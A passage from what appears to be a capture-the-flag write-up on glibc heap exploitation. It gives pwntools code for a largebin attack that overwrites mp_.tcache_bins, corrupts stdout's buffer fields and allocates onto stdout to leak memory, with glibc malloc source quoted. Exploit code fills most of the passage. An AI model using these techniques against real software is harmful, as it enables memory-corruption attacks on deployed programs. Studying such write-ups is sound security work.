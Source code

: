 ```python
slam(65, 3)
alloc(3,0x420-0x60,b"") # reduce unsorted bin size
p.sendafter(b"> ", b"A"*(0x1458-0x60)+p16(0x91+0x30+0x60))
```
Slam `_IO_2_1_stdout_._IO_buf_end` to convert scanf to heap overflow primitive.
Allocating from unsorted bin before overwriting size will still keep it smaller than the largebin chunk. Overwrite the size to overlap unsorted bin chunk with largebin chunk.

```python
alloc(3,0x20,p64(stdout)[:2]) # tc_idx: 0x2c2
alloc(3,0x20,p64(stdout)[:2]) # tc_idx: 0x2c8

alloc(3,0x50,b"")
alloc(3,0x30,p64(0)+p64(tcache_bins-0x20)[:2])
alloc(3,0x10,b"")
```
Allocating from unsorted bin returns splitted chunk with main_arena pointer in it. Overwriting 2 bytes of stdout will make a pointer to stdout within heap, with 4-bits of brute force done before. We will prepare 2 pointers to stdout.

Now, we will overwrite largebin chunk's bk_nextsize by splitting unsorted bin chunk into the largebin chunk. We will also overwrite main arena pointer to point `&mp_.tcache_bins - 0x20`. And we will empty unsorted bin to trigger largebin attack in the next stage.

```python
free(2)
alloc(3,3000,b"") # largebin attack
```
Freeing previousy allocated 2 will move it to unsorted bin. And freeing larger chunk will move  it to largebin, triggering the largebin attack.

```c
 size_t tc_idx = csize2tidx (tbytes);

  MAYBE_INIT_TCACHE ();

  DIAG_PUSH_NEEDS_COMMENT;
  if (tc_idx < mp_.tcache_bins
      && tcache
      && tcache->counts[tc_idx] > 0)
    {
      victim = tcache_get (tc_idx);
      return tag_new_usable (victim);
    }
```
Since `mp_.tcache_bins` is overwritten to heap address, it is possible to allocate to our modified stdout pointers.

```python
payload = p64(0xfbad1800)
payload += p64(0)*3
payload += p8(0)
pause()
alloc(3,(0x2c2+1)*0x10, payload)
```
Distance from `tcache->entries` to our stdout pointer(0x2c2) is converted to allocation size(0x2c2+1)*0x10. Also we should set `tcache->counts[0x2c2]`, but this was done during the heap overflow payload (`b"A"*0x1000+...`).
